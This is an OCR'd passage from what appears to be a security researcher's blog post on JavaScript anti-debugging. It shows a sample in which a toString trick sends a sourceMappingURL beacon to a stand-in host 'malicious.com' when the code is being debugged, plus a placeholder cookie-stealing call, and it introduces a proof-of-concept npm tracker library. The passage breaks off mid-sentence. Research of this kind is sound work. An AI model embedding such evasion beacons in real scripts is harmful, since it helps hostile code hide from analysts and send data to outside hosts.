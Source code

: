 ```javascript
function  smap(url, data)  {
    const script = document.createElement('script');
    script.textContent =  `//# SourceMappingURL=${url}?data=${JSON.stringify(data)}`;
    document.head.appendChild(script);
    script.remove();
}

function malicious() {
    const detect = (function(){
        const dummy = function(){};
        dummy.toString = () => {
            smap('https://malicious.com/reportFunctionIsDebugged',  {name: 'malicious'});
        };
        return dummy;
    }());

    // do a malicious action
    if (window.stealUserCookies) window.stealUserCookies();
}

// if this '//# SourceMappingURL=' trick doesn't make sense to you, you MUST read part 1 of my anti debugging techniques research!
// check out https://weizman.github.io/page-js-anti-debug-1/
```

You get the idea - **run anything you want in any scope you choose without the need to wait for the debugger to free the code from being paused!**

### The [debug-tracker](https://www.npmjs.com/package/debug-tracker-poc) (Take it to the next level)

Based on what we just learned, I decided to create the [debug-tracker](https://www.npmjs.com/package/debug-tracker-poc) - a NodeJS library that gets a string representation of javascript code, and returns it when each function is now tracked so when someone steps into that function via the devtools debugger, a provided callback will be called.
**Think of it as like firing an event indicating a function is being debugged with the function's name.**

So basically passing the following code:

```javascript
function y(b) {
    return b + 5;
}

var x = (a) => {
	return y(a + 1);
};

x(3);
```

to the library along with the following callback (to be fired when a function is debugged):
